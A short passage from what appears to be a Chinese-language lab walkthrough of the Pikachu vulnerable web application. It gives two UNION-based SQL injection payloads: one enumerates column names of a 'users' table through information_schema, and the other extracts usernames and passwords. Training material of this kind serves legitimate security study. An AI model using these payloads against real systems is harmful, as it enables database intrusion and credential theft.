 ![](../../../../assets/img/安全/实验/Misc/pikachu/32.png)

获取字段名,输入:`a'union select table_name,column_name,2 from information_schema.columns where table_name='users'#%`

![](../../../../assets/img/安全/实验/Misc/pikachu/33.png)

获取数据,输入:`a'union select username ,password,4 from users#%`

![](../../../../assets/img/安全/实验/Misc/pikachu/34.png)
